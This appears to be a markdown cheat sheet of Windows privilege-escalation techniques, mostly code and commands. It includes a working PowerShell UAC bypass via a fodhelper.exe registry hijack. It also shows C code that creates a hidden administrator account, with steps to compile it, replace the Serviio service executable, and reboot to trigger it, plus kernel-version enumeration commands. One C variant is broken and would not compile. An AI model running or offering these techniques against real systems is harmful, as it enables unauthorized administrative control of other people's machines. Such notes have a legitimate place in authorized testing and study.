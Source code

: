 ## Privesc Examples

### User Account Control Bypass - FoodHelper
```
function FodhelperBypass(){ 
 
Param (    
 
 [String]$program = "cmd /c start powershell.exe" #default
 
      )
 
#Create registry structure
 
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
 
#Perform the bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
 
#Remove registry structure
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
 
}
```


### Insecure file permissions - Serviio Example

C code to compile
```
include <stdlib.h>
int main ()
{
      int i;
      i = system ("net user evil Ev!lpass /add");
      i = system ("net localgroup administrators evil /add");
      return 0;
}
```

More accomadating code
```
include <stdlib.h>
#include <bits/stdc++.h>
using namespace std;

char u[] = "evil";
char p[] = "Ev!lpass";
int main ()
{
      int i;
      i = system ("net user ", u, " ", p, " /add");
      i = system ("net localgroup administrators ",  u, " /add");
      return 0; 
}
```

Compile on linux machine
```
sudo apt install -fy gcc-mingw-w64-i686
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

Replace weak permission file with new file
```
set ogfile=C:\Program Files\Serviio\bin\ServiioService.exe
set newogfile=C:\Program Files\Serviio\bin\ServiioService_original.exe
set newfile=adduser.exe

move "%ogfile%" "%newogfile%"
move %newfile% %ogfile%
```

stop service
```
set servicename=Serviio
net stop %servicename%
```

check if running
```
wmic service where caption="%servicename%" get name, caption, state,startmode
```

if is, try and reboot machine. see if we have priv to do so
```
whoami /priv
```

if SeShutdownPrivilege is simply present (can be disabled/enabled) then reboot machine
```
shutdown /r /t 0
```

check if new admin user
```
net localgroup Administrators
```


### Unquoted Service Paths


### Windows Kernel Vulnerabilities

look for vulnerable kernel/driver versions
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
driverquery /v
```